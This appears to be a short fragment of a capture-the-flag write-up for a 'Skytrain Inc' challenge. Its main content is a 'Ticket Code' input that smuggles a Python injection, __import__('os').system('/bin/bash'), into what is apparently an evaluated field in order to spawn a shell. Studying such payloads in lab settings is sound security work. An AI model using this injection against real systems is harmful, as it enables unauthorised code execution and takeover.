 # Skytrain Inc   
## Ticket to root  
__Ticket Code:__  
**102 + 10 == 112 and __import__('os').system('/bin/bash') == False
